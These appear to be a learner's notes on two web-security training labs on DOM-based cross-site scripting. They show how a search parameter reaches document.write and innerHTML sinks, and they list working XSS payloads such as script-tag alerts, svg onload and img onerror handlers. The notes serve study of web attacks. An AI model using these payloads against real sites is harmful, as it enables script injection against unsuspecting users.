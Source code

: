 ## Lab1: The param is being read from the URL and insert into document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">')

document.write sink using source location.search
URL - https://0ac100d10477af868006e069001500a7.web-security-academy.net/?search=%27%3C%2Fh1%3E%3Cb%3Exxxx%3C%2Fb%3E
param = search
query = %27%3C%2Fh1%3E%3Cb%3Exxxx%3C%2Fb%3E = '</h1><b>xxxx</b>
document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
encoding is implemented

break out of img tag
'">');<b>xxxx</b>  ----> ');xxxx"> getting printed

# payload: 
'"><script>alert('xxxxxx')</script>
"><svg onload=alert(1)>

## Lab2 : innerHTML sink using source location.search
  <script>
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }
</script>                         

* payload:
<b>Hello<b>
');//<img src=x onerror=print('xxx')>

* Output
= <span id="searchMessage"><b>hello</b></span>

## The value of the src attribute is invalid and throws an error. This triggers the onerror event handler, which then calls the alert() function. As a result, the payload is executed whenever the user's browser attempts to load the page containing your malicious post.



